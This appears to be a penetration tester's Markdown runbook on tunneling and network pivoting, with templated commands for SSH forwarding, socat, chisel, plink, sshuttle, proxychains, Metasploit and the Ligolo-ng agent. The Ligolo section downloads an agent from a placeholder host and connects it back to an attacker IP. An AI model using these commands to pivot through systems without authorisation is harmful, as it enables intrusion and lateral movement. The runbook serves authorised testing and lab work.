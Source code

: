 # Tunneling
<!--- Status 90% --->
<!--- Maybe add another tunneling agent --->

## Introduction

This runbook provides a guide to tunneling. It includes a variety of techniques and tools for port forwading, using a proxy, and setting up tunnels with agents.

## Table of Content

- [Tunneling](#tunneling)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [Port Fowarding](#port-fowarding)
    - [SSH Tunneling/Local Port Forwarding](#ssh-tunnelinglocal-port-forwarding)
    - [SSH Remote Port Forwarding](#ssh-remote-port-forwarding)
    - [Socat - Port Forward](#socat---port-forward)
    - [chisel  - Remote Port Forward](#chisel----remote-port-forward)
    - [Chisel - Local Port Forward](#chisel---local-port-forward)
    - [pklink - Remote Port Forward](#pklink---remote-port-forward)
  - [Proxying - Network Pivoting](#proxying---network-pivoting)
    - [sshuttle (Unix) - proxying](#sshuttle-unix---proxying)
    - [SSH + Proxychains](#ssh--proxychains)
    - [chisel  - Reverse Proxy](#chisel----reverse-proxy)
    - [chisel - Forward Proxy](#chisel---forward-proxy)
    - [metasploit - proxying](#metasploit---proxying)
  - [Tunneling with an aganet](#tunneling-with-an-aganet)
    - [Ligolo](#ligolo)

## Port Fowarding

### SSH Tunneling/Local Port Forwarding  

```sh
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding

```sh
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

### Socat - Port Forward

```sh
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 

```sh
# kali
./chisel server -p <LISTEN_PORT> --reverse &
```
```cmd
# windows
./chisel client <client_port>:<client_port> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

### Chisel - Local Port Forward

```cmd
# host
./chisel server -p <LISTEN_PORT>
```
```sh
# kali
./chisel client <client_port>:<client_port> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

### pklink - Remote Port Forward

```cmd
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting

### sshuttle (Unix) - proxying  

```sh
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains

edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```sh
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy

```sh
# kali
./chisel server -p LISTEN_PORT --reverse &
```
Host  
```cmd
./chisel client <TARGET_IP>:<LISTEN_PORT> R:socks &
```

### chisel - Forward Proxy  

Host  
```cmd
./chisel server -p <LISTEN_PORT> --socks5
```
```sh
# kali
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### metasploit - proxying

```sh
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```

## Tunneling with an aganet

### [Ligolo](https://github.com/nicocha30/ligolo-ng)

```sh
# kali
sudo ip tuntap add user <user> mode tun ligolo
sudo ip link set ligolo up
ligolo-proxy -selfcert -laddr 0.0.0.0:<port>
sudo ip route add <ip-range> dev ligolo
```
```
# host
wget http://<ip>/<linuxagent>
OR
iwr -uri http://<ip>/agent.exe -Outfile agent.exe
agent.exe -connect <attacker IP here>:<port> -ignore-cert
```
```sh
# kali
session
start
```

 <!--- Last Updated July 9, 2024 --->